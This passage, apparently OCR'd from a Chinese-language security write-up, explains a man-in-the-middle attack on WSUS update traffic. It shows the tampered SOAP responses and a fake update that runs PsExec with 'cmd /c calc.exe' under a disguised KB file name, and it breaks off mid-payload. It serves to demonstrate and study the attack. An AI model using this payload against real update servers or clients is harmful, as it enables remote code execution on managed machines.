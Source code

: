 ```
RevisionNumber="201" />
    </BundledUpdates>
</Relationships>
</Xml>  </UpdateInfo>   <!-- End of injected content -->
</NewUpdates>

```

于是乎，client会就刚刚两个id发出GetExtendedUpdateInfo请求，要求wsus服务器返回详细的安装消息

```
<revisionIDs>
<int>17999990</int> 
<int>17999991</int>
</revisionIDs>
<infoTypes>
<XmlUpdateFragmentType>Extended</XmlUpdateFragmentType>
<XmlUpdateFragmentType>LocalizedProperties</XmlUpdateFragmentType>
</infoTypes>

```

中间人这时再次将请求包中的两个id剔除，以免wusu服务器因为不存在的更新报错。当wsus服务器响应之后，我们再将响应内容篡改，这次我们加入四个更新标签

```
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:xsd="http://www.w3.org/2001/XMLSchema">
<soap:Body><GetExtendedUpdateInfoResponse
xmlns="http://www.microsoft.com/SoftwareDistribution/Server/ClientWebService">
<GetExtendedUpdateInfoResult>
<Updates>
<Update>
<ID>17999990</ID>
<Xml>
 <!-- This should be XML encoded inside the Xml tag -->
<ExtendedProperties DefaultPropertiesLanguage="en"
 Handler="http://schemas.microsoft.com/msus/2002/12/UpdateHandlers/CommandLineI
nstallation"
MaxDownloadSize="847040" MinDownloadSize="0">
<InstallationBehavior RebootBehavior="NeverReboots" />
</ExtendedProperties>
<Files>
<File Digest="HO4/qEGb30y8JmRhJ34/3ZuT3iU=" DigestAlgorithm="SHA1"
FileName="PsExec.exe" Size="847040" Modified="2015-02-27T15:54:52Z">
<AdditionalDigest
Algorithm="SHA256">A2LNbnsxirmkx02vIp8Ru3laLOVT6gJMtJFDRWwnxB0=</AdditionalDig
est>
</File>
</Files>
<HandlerSpecificData type="cmd:CommandLineInstallation">
<InstallCommand Arguments="/accepteula cmd /c calc.exe"
Program="Windows-KB890830-V5.22.exe"
RebootByDefault="false" DefaultResult="Succeeded">
<ReturnCode Reboot="true" Result="Succeeded" Code="3010" />
<ReturnCode Reboot="false" Result="Failed" Code="1603" />
<ReturnCode Reboot="false" Result="Failed" Code="-2147024894" />
</InstallCommand>
</HandlerSpecificData>
 </Xml>
 </Update>
 <Update>
<ID>17999991</ID>
  <Xml>
 <!-- This should be XML encoded inside the Xml tag -->
```